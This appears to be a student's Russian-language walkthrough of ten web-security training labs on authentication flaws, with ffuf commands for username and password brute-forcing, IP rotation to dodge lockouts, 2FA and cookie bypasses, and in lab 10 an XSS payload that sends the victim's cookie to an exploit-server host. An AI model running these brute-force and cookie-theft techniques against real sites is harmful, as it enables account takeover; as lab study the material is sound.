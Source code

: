 # Authentication attacks

## 1. Lab: Username enumeration via different responses

бурпом угнал запрос, потом ffuf сначала подобрал юзернейм, потом пароль

asia:klaster
```
ffuf -request req.txt -request-proto https -w users.txt -fs 3140

ffuf -request req.txt -request-proto https -w pass.txt -fc 200
```

## 2. Lab: 2FA simple bypass

Просто вместо того, чтобы вводить 2fa перейти на /my-account.

## 3. Lab: Password reset broken logic

В форме отправки сброса пароля явно указывается ник того, кому пароль скинуть. Указываем там carlos и гг

## 4. Lab: Username enumeration via subtly different responses

Долго повозившись с регексами, сделал такой запрос в ffuf

```
ffuf -request req.txt -request-proto https -w users.txt -fr 'Invalid username or password\.'
```

Далее пароль (уже попроще)

azureuser:cheese

```
ffuf -request req.txt -request-proto https -w pass.txt -c
```


## 5. Lab: Username enumeration via response timing

Так как надо ротировать айпишник, чтоб не заблочиться, сгенерил список из 101 айпишника и засунул его питчфорком в ffuf.
Теперь для каждого юзернейма будет новый айпишник. Чем не хайп.

```
ffuf -request req.txt -request-proto https \
  -w users.txt:FUZZ -w ips_101.txt:IPFUZZ \
  -mode pitchfork -c  -ft '<150'
```

На никнейме `au` таймаутнулся, так что буду считать, что он мне и нужен (в пароль я вбивал 3000 символов)

Правильно введенный пароль стандартно редиректит, нашел его таким запросом

au:12345678

```
ffuf -request req.txt -request-proto https \
  -w pass.txt:FUZZ -w ips_101.txt:IPFUZZ \
  -mode pitchfork -c -fr 'You have made too many incorrect login attempts'
```

## 6. Lab: Broken brute-force protection, IP block

Так как механизм таков, что раз в несколько раз надо опять входить - опять сделал pitchfork,
только на этот раз просто сделал каждый второй юзер пасс - wiener:peter, и в выводе искал просто 
три синих подряд

![2025-10-22-at-14-59-23.png](Nikolaev_mikhail_pr5-img/2025-10-22-at-14-59-23.png)

```
ffuf -request req.txt -request-proto https \
  -w carlos_wiener_200.txt:USERFUZZ -w pass_brute.txt:PASSFUZZ \
  -mode pitchfork -t 1 -c
```

## 7. Lab: Username enumeration via account lock

Заметил, что на несуществующие юзернеймы нет блока по количеству попыток входа. Победа??

```
ffuf -request req.txt -request-proto https \
  -w users.txt:USERFUZZ -w empty.txt:PASSFUZZ \
  -mode clusterbomb -c -fs 3132
```

В empty 10 рандомных строк, так что каждый юзернейм 10 раз повторился. Фильтруя по обычному размеру ответа
я нашел, что в случае с юзернеймом argentina размер больше, а в сообщении находится `You have made too many incorrect login attempts`

Теперь перебираю пароли. Сделал фильтр на ошибку по таймауту и после нескольких прогонов заметил, что только один пароль каждый раз возвращается.

argentina:starwars

```
ffuf -request req.txt -request-proto https \
  -w pass.txt \
  -c -fr 'You have made too many incorrect login'
```

## 8. Lab: 2FA broken logic

Заметил, что в ручке GET /login2 в куки можно поставить ник. Таким образом я туда вставил ник carlos и загенерил ему 2FA

Далее со своего акка взял request, поменял на carlos ник, забрутил его ffuf

```
ffuf -request req.txt -request-proto https \
  -w ~/red/SecLists/Fuzzing/4-digits-0000-9999.txt \
  -c -fc 200
```

## 9. Lab: Brute-forcing a stay-logged-in cookie

Тут прикол в том, что в куки есть поле stay-logged-in, которое в формате base64(username:md5(password)).

Потому я написал bash скрипт, который создал мне вордлист для этого поля (change.sh) на основе имеющегося вордлиста пароля и юзера carlos.

Далее я добавил флаг -r в ffuf для того, чтобы следовать редиректам, и догадался отрубить куки "session" потому что оно мешало. Итого получил такой запрос

```
➜ ffuf -request req.txt -request-proto https \
  -w payloads.txt \
  -c -r -mr "Update email"
```

## 10. Lab: Offline password cracking

Тут как будто задача больше на скрафтить xss (я не смог). xss обращается по ручке server/cookie и мы забираем эту куки. потом кракаем хэш.

```xxs
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

carlos:26323c16d5f4dabff3bb136f2460a943

При помощи crackstation.net поломал пароль. onceuponatime
